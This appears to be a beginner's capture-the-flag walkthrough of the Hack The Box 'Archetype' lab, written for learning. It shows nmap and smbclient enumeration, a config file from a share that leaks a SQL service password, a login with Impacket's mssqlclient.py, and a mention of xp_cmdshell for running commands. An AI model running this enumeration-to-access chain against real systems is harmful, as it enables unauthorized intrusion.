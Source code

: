 one of the starting point CTF's from HTB *always a great learning opportunity*

# Enumeration

## Nmap
A basic nmap scan to see what were dealing with:
```bash
$ nmap 10.129.88.67
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-24 16:55 CEST
Nmap scan report for 10.129.88.67
Host is up (0.029s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
```

seems to be **MS-SQL** and a **SMB share** let's dig a bit deeper
```bash
$ nmap -sC -sV 10.129.88.67
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-24 17:06 CEST
Nmap scan report for 10.129.88.67
Host is up (0.026s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.88.67:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.88.67:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-05-24T14:49:12
|_Not valid after:  2055-05-24T14:49:12
|_ssl-date: 2025-05-24T15:06:59+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-24T08:06:54-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-24T15:06:50
|_  start_date: N/A
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
```

## SMB
so in the Nmap output we can see that the SMB allows for guest access so let's see what we can find in there
```bash
$ smbclient -L 10.129.88.67
Password for [WORKGROUP\janosch]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

backups looks the most interesting let's have a look at that
```bash
$ smbclient //10.129.88.67/backups
Password for [WORKGROUP\janosch]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020
```

**Contents:**
```json
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

so this **SMB share** just uncovered some passwords for what seems to be the **MS-SQL** server. 

# Exploitation
Let's try to logon to the MS-SQL server with the credentials we just found. For this I'm gonna use `mssqlclient.py` from the Impacket GitHub repo.

```bash
$ mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.88.67 -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
..Snip..
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

we can use the `xp_cmdshell` command to run cmd or powershell commands



# Conclusion
so this was my first real windows CTF and I got stuck a lot at the windows parts especially trying to do Privilege escalation on windows was a pain in the Ass but I could do A lot with the SMB which saved my ass a bit.

**What I learned:**
- You can do A lot of exploitation with MS-SQL
- File transfers are really different on Windows
- How to run scripts in windows terminals
- Always check out SMB shares with `smbclient`